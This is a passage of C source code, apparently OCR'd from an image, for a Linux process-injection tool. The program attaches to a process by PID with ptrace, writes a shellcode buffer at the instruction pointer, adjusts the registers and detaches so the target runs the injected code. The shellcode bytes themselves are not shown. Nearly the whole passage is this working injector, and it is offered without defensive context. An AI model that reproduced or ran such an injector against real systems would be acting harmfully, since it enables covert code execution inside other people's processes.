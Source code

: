 ```bash
	{
	  perror ("ptrace(POKETEXT):");
	  return -1;
	}
    }
  return 0;
}

int
main (int argc, char *argv[])
{
  pid_t                   target;
  struct user_regs_struct regs;
  int                     syscall;
  long                    dst;

  if (argc != 2)
    {
      fprintf (stderr, "Usage:\n\t%s pid\n", argv[0]);
      exit (1);
    }
  target = atoi (argv[1]);
  printf ("+ Tracing process %d\n", target);

  if ((ptrace (PTRACE_ATTACH, target, NULL, NULL)) < 0)
    {
      perror ("ptrace(ATTACH):");
      exit (1);
    }

  printf ("+ Waiting for process...\n");
  wait (NULL);

  printf ("+ Getting Registers\n");
  if ((ptrace (PTRACE_GETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }
  

  /* Inject code into current RPI position */

  printf ("+ Injecting shell code at %p\n", (void*)regs.rip);
  inject_data (target, shellcode, (void*)regs.rip, SHELLCODE_SIZE);

  regs.rip += 2;
  printf ("+ Setting instruction pointer to %p\n", (void*)regs.rip);

  if ((ptrace (PTRACE_SETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }
  printf ("+ Run it!\n");

 
  if ((ptrace (PTRACE_DETACH, target, NULL, NULL)) < 0)
	{
	  perror ("ptrace(DETACH):");
	  exit (1);
	}
  return 0;
```